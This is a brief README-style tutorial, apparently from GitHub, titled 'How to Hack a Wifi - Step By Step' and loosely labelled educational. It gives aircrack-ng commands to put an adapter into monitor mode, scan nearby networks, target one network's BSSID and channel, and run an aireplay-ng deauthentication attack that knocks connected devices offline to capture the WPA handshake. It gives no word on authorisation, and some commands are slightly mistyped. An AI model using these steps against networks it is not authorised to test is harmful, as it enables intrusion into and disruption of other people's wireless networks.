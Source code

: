 ## How to Hack a Wifi - Step By Step

In this Document i will guide step by step how to hack a wifi. YT Video: https://youtu.be/pGA_qOCNFfA


> Educational propouses



### Requirements:
- Kali Linux (optional)
- Have Installed **aircrack-ng**
- Wifi Adapter in Mode Monitor

---


### 1. Download Aircrack-ng if you don't have Kali Linux
- The first thing we need to do is install **aircrack-ng**. So to install it we need to type on the terminal: ```sudo apt-get install aircrack-ng```. If you have Kali skip the step ;)

### 2. Turn Wifi Adapter into Mode Monitor
- When we have installed aircrack-ng the next step will be turning the adapter into mode monitor. So to do that we need to go to terminal and add this command: ```sudo airmon-ng start [interface of the adapter]```.
- If we don't know the interface of the adapter we will do a ```ipconfig``` to look which interfaces we have.

### 3. Scanning the Wifi Networks
- To scan the wifi's that we could connect we will use the command: ```sudo airodump-ng [interface + mon]```. With this command we could see all the possible wifi networks, but we will focus on the one you want.

### 4. Capturing the Handshake
- When we know the BSSID and the chanel of the wifi network we will do a handshake focus only that network. Adding this command: ```sudo airodump -c [channel of the wifi] -bssid [BSSID of the network] -w [name for the file] [interface of the adapter + mon]```.
- Then we will do ```sudo aireplay-ng -0 5 -a [BSSID] -c [STATION number of the device] [interface of the adapter + mon]```to make an attack to the devices connected to capture the Handshake.
